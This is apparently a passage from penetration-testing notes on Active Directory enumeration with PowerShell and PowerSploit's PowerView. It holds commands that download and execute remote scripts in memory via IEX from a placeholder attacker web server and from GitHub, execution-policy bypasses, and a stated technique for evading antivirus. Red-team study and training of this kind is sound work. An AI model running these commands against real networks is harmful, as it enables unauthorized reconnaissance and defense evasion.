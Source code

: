 Once the DLL has been uploaded to the target, or made accessible on a network
share, the Active Directory module can be imported:

```
Import-Module ActiveDirectory
Import-Module <PATH\Microsoft.ActiveDirectory.Management.dll>

# Necessary for some cmdlets, notably Get-Acl / Set-Acl - requires to be executed in a domain authenticated security context
New-PSDrive -Name AD -PSProvider ActiveDirectory -Server "<DC_IP>"
```

The `Import-ActiveDirectory.ps1` PowerShell script, in-lining
the `Microsoft.ActiveDirectory.Management.dll`, may also be used to import the
Active Directory module:

```
IEX (new-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Import-ActiveDirectory.ps1'); Import-ActiveDirectory
```

###### PowerSploit PowerView

`PowerView` is a PowerShell tool to gain network situational awareness on
Windows domains. It contains a set of pure-PowerShell replacements for various
windows "net" commands, which utilize PowerShell AD hooks and underlying Win32
API functions to perform useful Windows domain functionality.

It also implements various useful metafunctions, including some custom-written
user-hunting functions which will identify where on the network specific users
are logged into. It can also check which machines on the domain the current
user has local administrator access on. Several functions for the enumeration
and abuse of domain trusts also exist.

The `dev` branch has the most up-to-date cmdlets:
`git clone --single-branch --branch dev https://github.com/PowerShellMafia/PowerSploit.git`

```
# PowerShell by default will not allow execution of PowerShell scripts
powershell.exe -ExecutionPolicy bypass powershell.exe
Set-ExecutionPolicy -Force -Scope CurrentUser -ExecutionPolicy Bypass

Import-Module <PATH\PowerView.ps1>
```

`PowerSploit` can trigger antivirus software. To bypass such controls, inject
it directly in memory:

```
(New-Object System.Net.WebClient).Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# Master fork - Stable
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')

# Empire fork - Maintained
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1')
```
